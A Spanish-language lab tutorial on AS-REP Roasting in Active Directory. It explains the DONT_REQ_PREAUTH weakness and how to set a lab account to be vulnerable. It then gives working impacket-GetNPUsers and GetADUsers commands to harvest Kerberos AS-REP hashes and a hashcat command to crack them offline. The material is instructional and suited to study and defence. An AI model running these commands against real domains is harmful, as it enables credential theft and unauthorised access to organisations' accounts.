 # AS-REP Roast

## ORIGEN DE UN AS-REP ROAST

---

La vulnerabilidad **ASREPRoast** ocurre cuando algún usuario del dominio tiene habilitado el atributo `DONT_REQ_PREAUTH` , este atributo permite que cualquiera pueda generar una respuesta `KRB_AS_REP` sin necesidad de realizar la autenticación previa que se realiza en el primer (`KRB_AS_REQ`) paso Kerberos.

![Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)](images/Untitled.png)

Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)

En una respuesta `KRB_AS_REP` el **KDC** responde al usuario con el ticket **TGT** y **una clave de sesión cifrada** con la contraseña de dicho usuario, esta sesión es lo que necesitamos para crackearla offline con herramientas como **Jhon The Ripper** o **Hashcat**.

## PREPARACIÓN DEL ENTORNO

---

Para causar la vulnerabilidad tenemos que habilitar el `DONT_REQ_PREAUTH` a algún usuario del dominio.

Nos dirigirnos a ***Administrador del Servidor > Herramientas > Usuarios y equipos de Active Directory*** y en el menú lateral izquierdo buscamos la carpeta llamada ***Usuarios***.

![Untitled](images/Untitled%201.png)

Luego damos click derecho en el usuario al que queremos hacer vulnerable y nos vamos a ***Propiedades***.

![Untitled](images/Untitled%202.png)

Y vamos a la pestaña ***Cuenta***, en ***Opciones de cuenta*** marcamos ***No pedir la autenticación Kerberos previa*** y aplicamos los cambios.

![Untitled](images/Untitled%203.png)

Con estos pasos este usuario ya sería vulnerable a ASREP-Roast

## EXPLOTACIÓN

---

### 1. Sin Credenciales Válidas

En caso de que no tuvieramos credenciales para encontrar los usuaros que tengan el atributo `DONT_REQ_PREAUTH` habilitado podemos usar un diccionario de posibles usuarios - https://github.com/attackdebris/kerberos_enum_userlists - y con herramientas como **`*GetNPUsers*`** de la suite de `***impacket***` podemos empezar a probar los usuarios para encontrar aquellos tengan.

```bash
impacket-GetNPUsers NOMBRE_DOMINIO/ -dc-ip IP_DC -usersfile NOMBRE_ARCHIVO_USUARIO.txt
	-no-pass -format hashcat
```

Ejemplo de uso:

![Untitled](images/64db9d8e-03b9-4dd2-af3c-78c5608f2114.png)

### 2. Con Credenciales Válidas

En caso de tener credenciales previamente adquiridas usaremos la herramienta `***GetADUsers***` de `***impacket***` para enumerar los usuarios del dominio.

```bash
impacket-GetADUsers NOMBRE_DOMINIO/USUARIO:CONTRASEÑA -all -dc-ip IP_DC
```

Ejemplo de uso:

![Untitled](images/Untitled%204.png)

Con esto deberíamos obtener todos los usuarios del dominio los cuales guardaremos en un archivo de texto para una vez más usar la herramienta ***`GetNPUsers`*** de ***`impacket`*** para obtener los usuarios con el atributo `DONT_REQ_PREAUTH` habilitado.

```bash
impacket-GetNPUsers NOMBRE_DOMINIO/ -userfile NOMBRE_ARCHIVO_USUARIO.txt -dc-ip IP_DC -format hashcat
```

Ejemplo de uso:

![Untitled](images/Untitled%205.png)

## CRACKEO DE LOS HASHES ENCONTRADOS

---

Para crackear los hashes obtenidos guardamos los hashes en un archivo y, en este caso, usamos ***`hashcat`*** para crackear el hash.

```bash
hashcat -a 0 -m 18200 ARCHIVO_HASH DICCIONARIO -O
```

Sustituiremos ***ARCHIVOS_HASH*** con la ruta del archivo donde se encuentran los hashes y ***DICCIONARIO*** con la ruta hacia el diccionario de contraseñas que quieras usar para crackear los hashes